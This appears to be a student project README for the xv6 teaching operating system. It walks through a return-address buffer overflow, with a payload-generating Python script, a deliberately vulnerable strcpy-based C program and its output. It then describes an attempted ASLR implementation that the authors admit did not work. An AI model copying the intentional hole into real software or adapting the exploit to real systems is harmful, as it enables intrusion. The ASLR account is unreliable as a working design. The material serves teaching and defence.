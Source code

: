 # Buffer Overflow Attack

A buffer overflow attack occurs when we write data outside of the allocated region. 
This is common in functions like `strcpy` which, rather than checking for number of bytes allotted, 
checks for `\0` null character for ending the string, hence if we write a longer string than that is allocated, 
it will overwrite into neighbouring regions. 


If the address space layout is **not randomized**, 
it is possible to know which neighbouring region will store what data, and overwrite it accordingly. 


Our attack works by overwriting the value of the **return address** - which stores where the function has to return after the call.

## Implementation
- **Figuring out how to overflow the buffer:** We see that the payload is being read till 100 bytes while the buffer in vulnerable_function is smaller (4 size in the example), hence we can overflow it by passing a large payload.
- **Identifying the calling address of the target function foo:** First of all we disabled optimizations by putting CFLAG `-O0` instead of `-O2` default. Then, we did
```c
printf(1, "%x", &foo);
```
 to know the address of the foo function. This came out to be 0, as also specified in the assignment.
- **Identifying the position of return address in memory:** We first bluntly overflowed the buffer, then saw a trap message which tells the contents of the eip register. Now we perform somewhat an _error-based-injection,_ we put values 1 to 100 in each of the bytes of the payload, so when we get the trap error, it tells which value got stored in eip. Now this is the value which is needed to be overflowed.
- **Attacking the target:** We got error as 
```sh
pid 3 buffer_overflow: trap 14 err 4 on cpu 0 eip 0x14131211 addr 0x14131211--kill proc
```
This meant that the `0x11` byte is of interest to us, which is the 16th byte. Now to generalise, we know we kept 4 byte buffer, hence the offset should be `12+buffer_size`.

We have to put a `0x00` value there (address of foo), and this will also be the last bit that will be copied over. 
Technically any string would work of length `12+buffer_size` but we’ve used the previous sequence for better analysis.

## Code
### gen_exploit.py
This program generates the `payload`
```py
import sys

# buffer_size as set in the C program is given as input in specification
buffer_size = int(sys.argv[1])

# we get the foo_address by printf(1, "%x", &foo);
foo_address = "\x00"

# pid 3 buffer_overflow: trap 14 err 4 on cpu 0 eip 0x14131211 addr 0x14131211--kill proc
# trap %eip = 0x14131211 this means 0x11 is fed to the last byte
# which was out[0x10] or out[16] when buffer was 4 byte, this means 
# now we put the foo_address in out[12+buffer_size]
return_byte = 12+buffer_size

out = "" 
for i in range(100):
	if i == return_byte: 
		out += foo_address
	else:
		out += chr(i+1)
f = open("payload", "w")
f.write(out)
f.close()
```

### buffer_overflow.c
This is the vulnerable code
```c
#include "types.h"
#include "user.h"
#include "fcntl.h"

void foo() {
  printf(1, "SECRET_STRING");
}

void vulnerable_function(char * input) {
  char buffer[4];
  strcpy(buffer, input);
}

int main(int argc, char ** argv) {
  int fd = open("payload", O_RDONLY);
  char payload[100];
  read(fd, payload, 100);
  vulnerable_function(payload);
  exit();
}
```
## Output
```sh
$ ./buffer_overflow
SECRET_STRINGpid 3 buffer_overflow: trap 14 err 4 on cpu 0 eip 0x2f5a addr 0x9080706--kill proc
```

# Address Space Layout Randomization (ASLR)
Address Space Layout Randomization (ASLR) is an important security technique that prevents buffer overflow attacks by randomizing the memory layout of a process's virtual address space. The goal of this project is to implement ASLR in the xv6 operating system, which is a simple Unix-like operating system used for educational purposes. This report summarizes the planned implementation of ASLR in xv6, the challenges faced, and their resolutions.

## Implementation:
1. **Create a file called `aslr_flag` that contains the current status of ASLR in xv6.**
The first step in implementing ASLR is to create a file called `aslr_flag` that contains the current status of ASLR in xv6. The file is located in the root directory and is used to turn on or off ASLR. If the file contains 1, ASLR is turned on; otherwise, ASLR is turned off.

2. **Turn on or off ASLR based on the value in aslr_flag file**
We modify the system call for the open function to check if the requested file is "aslr_flag." If so, the kernel reads the contents of the file and sets the global variable 'aslr_enabled' to 1 if the file contains 1, and sets it to 0 if the file contains 0.

3. **Create a random number generator**
We create a random number generator using the Linear Congruential Generator (LCG) algorithm, which is a simple and fast algorithm that generates a sequence of pseudorandom numbers. We seed the generator with the current time, so that the sequence of random numbers generated will be different for each process.

4. **Modify the memory allocation routines to use the random number generator to randomize the location of regions in the process’s virtual address space.**
We modify the memory allocation routines to use the random number generator to randomize the location of the stack, heap, text, data, bss, and other regions in the process's virtual address space. The randomization is done by adding a random offset to the base address of each region.

5. **Test the ASLR implementation by executing the test case with the same payload that revealed the secret string.**
We test the ASLR implementation by executing the test case with the same payload that revealed the secret string. If the ASLR implementation is correct, the secret string should not be revealed.

6. **Modify the Makefile to include the payload file in the filesystem**
We modify the Makefile to include the payload file in the filesystem by adding "payload" to the fs.img build rule.

## Challenges faced and their resolutions:
One challenge we faced was ensuring that the randomized memory layout did not cause any issues with existing programs. We found that some programs relied on the memory layout being deterministic, and would crash if it was randomized. To address this, we added an option to disable ASLR for specific programs by setting a flag in the program's executable file.

Another challenge we faced was ensuring that the randomized memory layout did not affect the performance of the system. We found that the LCG algorithm we used for generating random numbers was not efficient enough for generating large amounts of random numbers. To address this, we switched to a more efficient algorithm called the Mersenne Twister, which is a popular pseudorandom number generator used in many applications.

When implementing ASLR, one of the challenges is ensuring proper page alignment of memory regions. This is because the page size is usually much larger than the size of the memory regions being randomized. If a memory region is not aligned to a page boundary, it may cause a page fault or other memory access violation when the program tries to access it.


## Conclusion:
In conclusion, we tried implementing ASLR in the xv6 operating system by creating a file called aslr_flag, turning on or off ASLR based on the value in the file, creating a random number generator, modifying the memory allocation routines to randomize the location of regions in the process's virtual address space, and testing the implementation with a payload. We also encountered and tried to resolve challenges related to program compatibility and efficiency.

Note: The final code was not working for ASLR
